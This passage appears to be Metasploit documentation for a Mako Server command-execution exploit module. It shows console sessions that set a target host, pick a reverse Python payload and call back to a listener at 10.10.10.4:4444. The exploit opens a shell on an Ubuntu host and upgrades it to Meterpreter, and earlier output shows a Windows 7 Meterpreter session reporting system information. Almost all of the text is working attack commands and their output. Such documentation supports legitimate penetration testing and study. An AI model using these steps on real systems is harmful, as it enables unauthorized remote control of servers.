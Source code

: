   ```
    Id  Name  Type                     Information                            Connection
    --  ----  ----                     -----------                            ----------
    1         shell cmd/windows                                               10.10.10.4:4444 -> 10.10.10.2:49189 (10.10.10.2)
    2         meterpreter x86/windows  smith-PC\smith @ SMITH-PC  10.10.10.4:8080 -> 10.10.10.2:49190 (10.10.10.2)

  msf post(shell_to_meterpreter) > sessions -i 2
  [*] Starting interaction with 2...

  meterpreter > getuid
  Server username: smith-PC\smith
  meterpreter > sysinfo
  Computer        : SMITH-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### Targeting Linux Ubuntu 16.04 LTS x64 running Mako Server v2.5

  A typical scenario would be to obtain a Linux command shell and then upgrade to a Meterpreter session:

  ```
  msf > use exploit/multi/http/makoserver_cmd_exec 
  msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.2
  RHOST => 10.10.10.2
  msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/unix/reverse_python
  PAYLOAD => cmd/unix/reverse_python
  msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.4
  LHOST => 10.10.10.4
  msf exploit(makoserver_cmd_exec) > check
  [*] 10.10.10.2:80 The target appears to be vulnerable.
  msf exploit(makoserver_cmd_exec) > exploit

  [*] Started reverse TCP handler on 10.10.10.4:4444 
  [*] Sending payload to target...
  [*] Command shell session 1 opened (10.10.10.4:4444 -> 10.10.10.2:57888) at 2017-11-10 15:52:33 -0500

  ls
  LICENSE.txt
  mako
  mako.zip
  README.txt
  rundemo.sh
  tutorial
  ^Z
  Background session 1? [y/N]  y
  msf exploit(makoserver_cmd_exec) > use multi/manage/shell_to_meterpreter
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type            Information  Connection
    --  ----  ----            -----------  ----------
    1         shell cmd/unix               10.10.10.4:4444 -> 10.10.10.2:57888 (10.10.10.2)

  ```